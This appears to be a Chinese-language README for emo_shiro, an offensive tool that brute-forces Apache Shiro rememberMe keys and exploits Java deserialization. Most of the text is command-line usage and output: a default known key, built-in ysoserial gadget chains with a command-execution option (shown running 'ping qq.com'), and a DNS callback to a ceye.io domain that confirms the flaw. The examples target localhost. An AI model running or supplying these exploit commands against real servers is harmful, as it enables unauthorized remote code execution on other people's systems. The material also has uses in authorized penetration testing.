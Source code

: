 ## 使用方法

```bash
➜  ~ ./emo_shiro --help
Usage: emo_shiro [--key <key>] [-m <mode>] [-t <target>] [-s <ser>] [--file <file>] [--keys <keys>] [--csv <csv>] [--proxy <proxy>] [--timeout <timeout>] [--thread <thread>] [--exploit] [--dns <dns>] [-p <payload>] [-c <command>] [--echo-name <echo-name>] [--command-name <command-name>] [-l]

emo_shiro

Options:
  --key             you can specify known keys
  -m, --mode        apache-shiro encryption algorithm,default: CBC
  -t, --target      the target
  -s, --ser         serialize file
  --file            read the target from the file
  --keys            read the key from the file
  --csv             export to the csv file
  --proxy           proxy to use for requests
                    (ex:[http(s)|socks5(h)]://host:port)
  --timeout         set request timeout
  --thread          number of concurrent threads
  --exploit         exploit mode
  --dns             dns identifier, default: 981tzg.ceye.io
  -p, --payload     select a payload
  -c, --command     command to execute
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -l, --list        list all payload
  --help            display usage information

```

## 详细参数

- `--key`指定Key，默认`kPH+bIxk5D2deZiIxcaaaA==`
- `-m`指定加密模式，默认`CBC`,可选：`GCM`
- `-t`单个目标
- `-s`读入ysoserial生成的文件作为payload
- `--file`从文件读入目标
- `--keys`从文件读入key
- `--csv`导出到csv文件
- `--exploit`利用模式，爆破出key后，如果开启exploit模式会读入ysoserial生成的文件作为payload，如果`--ser`
  参数为空，则为`--dns`作为URL_DNS的参数生成payload
- `--dns`验证的DNS服务器，请求为目标的`主机名_端口.你的DNS记录服务器`，默认为`981tzg.ceye.io`
- `-p`使用内置payload，配合`-c`或者`--dns`和`--echo-name`，`--command-name`，tomcat回显后面再更新
- `-l`列出内置payload

## 使用ysoserial文件

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit --ser /home/kali-team/1.ser                 
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=EAEAD8C3FA8884D816F575E55B654694 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用DNS记录验证漏洞

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用内置ysoserial

- payload来自：(ysoserial_rs)[https://github.com/emo-cat/ysoserial_rs]
- 例如使用利用`commons_collections_k1`链执行命令，使用`-p`指定利用链，`-c`指定要执行的命令

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit -p cck1 -c "ping qq.com"                                    
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=5FAF1087D2448C017C2959B2AC02CDAF | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```